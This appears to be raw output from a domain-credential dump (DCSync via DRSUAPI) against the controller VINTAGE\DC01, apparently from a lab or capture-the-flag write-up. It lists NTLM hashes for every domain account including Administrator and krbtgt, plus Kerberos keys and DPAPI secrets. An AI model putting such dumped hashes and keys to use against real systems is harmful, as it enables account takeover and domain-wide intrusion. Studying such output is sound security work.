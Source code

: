 ```bash
[*] $MACHINE.ACC 
VINTAGE\DC01$:plain_password_hex:ca385c025f7b81712d83d60e6c6ac2c6787e877114fe8342bd9b496572c6e1f3d2c82dee411d9bbdb6dc1eb7981bea8a7faa98d2b6efab8b3a90f85d48a3ec66c5f2b4c6d2d4ca747927ab1efd025f66a8e6914917e5d1e6112c7f2a668129ae0303f41f6b0b6c01219c09522da4f5cf9050bed3954973f14a4ff49a12f64d570d6cbd466b81c2ec86c0758213f35cf6db976b25aac295fe3e3953ca30cbe3afc9677d932d95cca63da09ad700abc22a9836ddb44de0be762f12f46eba649b293794f50a946898d1a786dfcac9582bd20e8fd21a9678d1e2d82b7bf3dec2f03bf67ab63d73ec4b34968678a77c3f6106
VINTAGE\DC01$:aad3b435b51404eeaad3b435b51404ee:2dc5282ca43835331648e7e0bd41f2d5:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x329e3f315c1e7294f086908d3d14c990c030305a
dpapi_userkey:0x2bd12147462ab2b6e92adcb202c9d8258c270790
[*] NL$KM 
 0000   7E F4 65 54 4C 71 04 1D  24 FC 9B ED 7B 0D B1 1B   ~.eTLq..$...{...
 0010   F0 E6 0E BF EF 13 78 C1  04 48 9F AE 46 49 39 A5   ......x..H..FI9.
 0020   D6 A9 94 E1 CC 13 FB 7D  29 02 00 C1 F8 CD 61 F3   .......}).....a.
 0030   8C 6D 56 42 1E 8B 3A 92  E1 8E E0 3C 6E 77 04 BC   .mVB..:....<nw..
NL$KM:7ef465544c71041d24fc9bed7b0db11bf0e60ebfef1378c104489fae464939a5d6a994e1cc13fb7d290200c1f8cd61f38c6d56421e8b3a92e18ee03c6e7704bc
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:468c7497513f8243b59980f2240a10de:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:be3d376d906753c7373b15ac460724d8:::
M.Rossi:1111:aad3b435b51404eeaad3b435b51404ee:8e5fc7685b7ae019a516c2515bbd310d:::
R.Verdi:1112:aad3b435b51404eeaad3b435b51404ee:42232fb11274c292ed84dcbcc200db57:::
L.Bianchi:1113:aad3b435b51404eeaad3b435b51404ee:de9f0e05b3eaa440b2842b8fe3449545:::
G.Viola:1114:aad3b435b51404eeaad3b435b51404ee:1d1c5d252941e889d2f3afdd7e0b53bf:::
C.Neri:1115:aad3b435b51404eeaad3b435b51404ee:cc5156663cd522d5fa1931f6684af639:::
P.Rosa:1116:aad3b435b51404eeaad3b435b51404ee:8c241d5fe65f801b408c96776b38fba2:::
svc_sql:1134:aad3b435b51404eeaad3b435b51404ee:cc5156663cd522d5fa1931f6684af639:::
svc_ldap:1135:aad3b435b51404eeaad3b435b51404ee:458fd9b330df2eff17c42198627169aa:::
svc_ark:1136:aad3b435b51404eeaad3b435b51404ee:1d1c5d252941e889d2f3afdd7e0b53bf:::
C.Neri_adm:1140:aad3b435b51404eeaad3b435b51404ee:91c4418311c6e34bd2e9a3bda5e96594:::
L.Bianchi_adm:1141:aad3b435b51404eeaad3b435b51404ee:7af8f2a31e6790ec2d51abdf475b4eed:::
DC01$:1002:aad3b435b51404eeaad3b435b51404ee:2dc5282ca43835331648e7e0bd41f2d5:::
gMSA01$:1107:aad3b435b51404eeaad3b435b51404ee:587368d45a7559a1678b842c5c829fb3:::
FS01$:1108:aad3b435b51404eeaad3b435b51404ee:44a59c02ec44a90366ad1d0f8a781274:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5f22c4cf44bc5277d90b8e281b9ba3735636bd95a72f3870ae3de93513ce63c5
Administrator:aes128-cts-hmac-sha1-96:c119630313138df8cd2e98b5e2d018f7
Administrator:des-cbc-md5:c4d5072368c27fba
krbtgt:aes256-cts-hmac-sha1-96:8d969dafdd00d594adfc782f13ababebbada96751ec4096bce85e122912ce1f0
krbtgt:aes128-cts-hmac-sha1-96:3c7375304a46526c00b9a7c341699bc0
krbtgt:des-cbc-md5:e923e308752658df
M.Rossi:aes256-cts-hmac-sha1-96:14d4ea3f6cd908d23889e816cd8afa85aa6f398091aa1ab0d5cd1710e48637e6
M.Rossi:aes128-cts-hmac-sha1-96:3f974cd6254cb7808040db9e57f7e8b4
M.Rossi:des-cbc-md5:7f2c7c982cd64361
R.Verdi:aes256-cts-hmac-sha1-96:c3e84a0d7b3234160e092f168ae2a19366465d0a4eab1e38065e79b99582ea31
R.Verdi:aes128-cts-hmac-sha1-96:d146fa335a9a7d2199f0dd969c0603fb
R.Verdi:des-cbc-md5:34464a58618f8938
L.Bianchi:aes256-cts-hmac-sha1-96:abcbbd86203a64f177288ed73737db05718cead35edebd26740147bd73e9cfed
L.Bianchi:aes128-cts-hmac-sha1-96:92067d46b54cdb11b4e9a7e650beb122
L.Bianchi:des-cbc-md5:01f2d667a19bce25
G.Viola:aes256-cts-hmac-sha1-96:f3b3398a6cae16ec640018a13a1e70fc38929cfe4f930e03b1c6f1081901844a
G.Viola:aes128-cts-hmac-sha1-96:367a8af99390ebd9f05067ea4da6a73b
G.Viola:des-cbc-md5:7f19b9cde5dce367
C.Neri:aes256-cts-hmac-sha1-96:c8b4d30ca7a9541bdbeeba0079f3a9383b127c8abf938de10d33d3d7c3b0fd06
C.Neri:aes128-cts-hmac-sha1-96:0f922f4956476de10f59561106aba118
C.Neri:des-cbc-md5:9da708a462b9732f
P.Rosa:aes256-cts-hmac-sha1-96:f9c16db419c9d4cb6ec6242484a522f55fc891d2ff943fc70c156a1fab1ebdb1
P.Rosa:aes128-cts-hmac-sha1-96:1cdedaa6c2d42fe2771f8f3f1a1e250a
P.Rosa:des-cbc-md5:a423fe64579dae73
```